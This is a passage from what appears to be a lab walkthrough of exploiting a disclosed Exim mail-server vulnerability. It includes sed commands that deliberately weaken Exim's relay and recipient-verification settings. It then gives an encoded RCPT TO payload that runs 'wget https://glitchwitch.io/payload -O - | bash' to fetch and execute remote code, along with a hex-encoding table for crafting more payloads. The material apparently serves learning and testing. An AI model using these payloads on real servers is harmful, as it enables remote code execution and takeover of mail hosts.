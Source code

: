 ```bash
## edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure

sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure


## Run exim as user exim
sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
```

You'll notice the last `sed` command is used to achieve the non-default vulnerable configuration mentioned in the Qualys disclosure.

>If the "verify = recipient" ACL was removed manually by an administrator (maybe to prevent username enumeration via RCPT TO), then our local-exploitation method also works remotely.

Now that we have exim running, we can move back to our `attacker` machine to craft and run our exploit.

## Crafting the exploit

In the disclosure, the Proof-of-Concept provided is as follows `\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22`. At first glance this might seem like gibberish, but we can decode it by understanding what's happening.

First you'll notice the `\`, this is acting as a separator and is required after each space or symbol.

Next, we see `x2F` which is hexadecimal for `/`.

We also have `\t` which is acting as a blank space.

Knowing that this is hexidecimal we can go ahead and lookup the remaining symbols.

Converting the above will leave us with the following command. `/bin/sh -c "id>>/tmp/id"`

With this knowledge, we can now craft our own exploit code.
`\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\`
which converts to `/bin/sh -c “wget https://glitchwitch.io/payload -O - | bash”`

What this will ultimately do is download the payload file and execute its contents. This allows us to quickly and easily modify our attack without changing the exploit code itself. The payload could include anything from a reverse shell to a full fledged backdoor.

We can use the following table to help us quickly craft different exploits.

```
\t-c\ = -c
\t\= space
x20 = space
x7C = |
x2F = /
x3A = :
x2D = -
x3E = >
x26 = &
x22 = "
```
One example might be `\x2Fusr\x2Fbin\x2Fwget\x20\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Ftest\x20\x2DO\x20\x22\x2Ftmp\x2Ftest\x22` which converts to `/usr/bin/wget https://glitchwitch.io/test -O /tmp/test`
